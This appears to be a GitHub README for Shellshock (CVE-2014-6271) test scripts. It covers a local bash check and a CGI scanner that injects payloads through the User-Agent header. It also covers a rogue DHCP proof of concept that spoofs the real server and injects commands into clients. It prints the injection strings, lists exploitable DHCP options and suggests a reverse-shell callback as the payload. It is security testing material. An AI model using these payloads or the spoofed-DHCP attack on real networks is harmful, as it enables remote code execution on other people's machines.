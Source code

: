 another_shellshock_test
=======================

Some scripts to test for the "ShellShock" vulnerability (CVE-2014-6271).

The codename for this scripts is SHIT (SHellshock Injection Test) *harrharr*.

*Please only use this script in environments where you are allowed to.*


## shellshock_local.sh
Test for the two known (by me) version of this vulnerability on the local system:
- env x='() { :;}; echo vulnerable' bash -c echo;
- rm -f echo; env X='() { (a)=>\' bash -c "echo echo vulnerable" 2>/dev/null; cat echo
! THIS SCRIPT WILL REMOVE ANY FILE NAMED echo IN THE CURRENT DIRECTORY. (Sorry for that)

A better script for this purpose is located here: https://github.com/hannob/bashcheck

## shellshock_cgi.py
Test if given cgi script are vulnerable.
USAGE:
 - ./shellshock_cgi.py url1 url2 url3
 - cat somefile | ./shellshock_cgi.py

It runs two tests:
- text_attack: Tries to inject a known text into the result. Succesfull if the cgis STDOUT is returned as response.
- timing attack: Tries to inject a call to sleep.

ATM. only suports GET requests and deliver the exploit in the User_Agent. This could be changed in a short amount of time, though.

EXAMPLE:
```
user@host:~/workspace/security/shellshock$ ./shellshock_cgi.py http://localhost/index.html http://localhost/lol.php
- testing: http://localhost/index.html
Timing attack vulnerable: False
Known text attack vulnerable: False

- testing: http://localhost/lol.php
Timing attack vulnerable: True
Known text attack vulnerable: True
```


## shellshock_dhcp.py
POC / Tester for the shellshock exploit via dchp clients.
In general you could just set up a dhcp server and set the option flag, but this way it would be more difficult to only test specific clients, spoof server and some other stuff.  

I am using the dhcp option 114 (url) as default field to supply the shellshock string.
But there seem to be a bunch of possible fields (See end of README).  
Without any parameter, the script will use the dhcp settings from the first dhcp server answering.
Client REQUESTs will always be ACKed (with inserted exploit).
DISCOVER requests will be answered with data supplied from the real dhcp server, or given as script parameter.  
  
The script will spoof the servers address if the package is send to a specific server.

The default command to execute is "/usr/bin/id > /tmp/test_x". Adjust it, for example. to a bash poor mans shell to call back to a server of yours to collect vulnerable addresses.  

You have to be lucky for the exploit to work, or guarantee that your machine answers faster as the real dhcp server.  
I only tested with dhclient so far, but it should work with every dhcp client invoking (the vulnerable version of) bash scripts and passing env variables.

EXAMPLE:
- Only listen for two given MAC addresses (use the data supplied by the real dhcp server):  
./shellshock_dhcp.pyshellshock_dhcp.py -w 08:00:27:09:84:a9 05:01:27:19:84:e9 -i eth0

- Use the script without a real dhcp server. OFC you'll have to supply all needed values.  
./shellshock_dhcp.pyshellshock_dhcp.py --static-data --gateway 192.168.100.152 --server-ip 192.168.0.1 --subnet-mask 255.255.255.0 -o 80 -i eth0
  

```
usage: shellshock_dhcp.py [-h] -i INTERFACE [-b MAC [MAC ...]]
                          [-w MAC [MAC ...]] [-s] [--ip IP]
                          [--dns-server DNS_SERVER] [--gateway GATEWAY]
                          [--subnet-mask SUBNET_MASK] [--mac MAC]
                          [--server-ip SERVER_IP] [-l LEASE] [-c COMMAND]
                          [-o OPTION]

optional arguments:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Use the given interface for sniffing and sending.
  -b MAC [MAC ...], --blacklist MAC [MAC ...]
                        Never react to package from given MAC.
  -w MAC [MAC ...], --whitelist MAC [MAC ...]
                        Only react to packages from given MAC.
  -s, --static-data     If given no dhcp request is done to get the settings.
                        If used --gateway and --subnet-mask should be
                        supplied.
  --ip IP               If given send this IP to the client(s) on DISCOVER.
  --dns-server DNS_SERVER
                        If given send this DNS server IP to the client(s) on
                        DISCOVER and REQUEST.
  --gateway GATEWAY     If given send this gateway IP to the client(s) on
                        DISCOVER and REQUEST.
  --subnet-mask SUBNET_MASK
                        If given send this subnet mask to the client(s) on
                        DISCOVER and REQUEST.
  --mac MAC             Use the given MAC address if not supplied by client.
                        If not given we use the mac from the real server, or a
                        random random one (if --static-data is given)..
  --server-ip SERVER_IP
                        Use the given IP address if not supplied by client. If
                        not given we use the IP from the real server, or a
                        random random one (if --static-data is given)..
  -l LEASE, --lease LEASE
                        Lease time to use.
  -c COMMAND, --command COMMAND
                        The command to execute on the client machine.
  -o OPTION, --option OPTION
                        The option flag to use for the payload.
```

INSTALL:
You will need python 2.7 and scapy (apt-get install scapy).  
It could work on windows, but to be honest, i didn't test it.  
The script (as every scapy script) need to be run as root.  
   
This script is pretty much in an alpha state, plus it is the first project i did with scapy and i am no network pro after all, so be aware that there could be (and probably will be) bugs.  
In general there is still much to do, and i would bet that there are a bunch of cases where the script will just crash ;)  

Also be aware that this script could lead to a hickup in the dhcp servers cache and also on the dhcp client. (For the last one just remove the lease files and restart your interface)  

Only works with IPv4 addresses ATM.
 
 
 

*Working (at least on my test system) options which allow strings as data and get passed to the dhclient scripts:*
- 114
- 242  
- 80  
- 133  
- 137  
- 83  
- 195  
- 250  
- 224  
- 108  
- 163  
- 174
